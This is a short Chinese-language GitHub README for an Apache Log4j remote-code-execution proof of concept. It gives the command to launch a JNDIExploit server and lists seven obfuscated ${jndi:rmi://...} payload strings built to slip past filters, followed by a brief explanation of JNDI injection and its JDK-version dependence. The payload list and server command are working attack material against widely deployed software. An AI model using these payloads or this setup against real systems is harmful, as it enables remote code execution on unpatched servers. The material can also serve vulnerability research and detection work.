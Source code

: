 # apache_log4j_poc
apache log4j poc—— base Maven

原理：[https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg](https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg)

使用[JNDIExploit](https://github.com/feihong-cs/JNDIExploit)开启jndi服务器：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.171.1 -l 12344 -p 9999 
```
![image](https://user-images.githubusercontent.com/49781523/145537707-1885a6f1-b51e-4f8a-a14d-701669568193.png)


![image](https://user-images.githubusercontent.com/49781523/145537663-a1e1d368-d726-4a07-8453-158454ce1c45.png)


参考文章：[https://www.codenong.com/f23e29b783ff38df36c9/](https://www.codenong.com/f23e29b783ff38df36c9/)

# bypass 方式
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

## 总结
[JNDI注入原理及利用](https://xz.aliyun.com/t/6633#toc-7)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3a4e7244ac8545279e15fef220f64d21.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAU2hhbmZlbmdsYW43,size_20,color_FFFFFF,t_70,g_se,x_16)


```
JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性（使用的不是RMI Class Loading,而是URLClassLoader）。
```
这个漏洞的利用跟JDK中的配置有很大关系，换句话说跟jdk版本关系很大。
只要JDK版本无漏洞，那么apache log4j的这个RCE就很难利用成功。
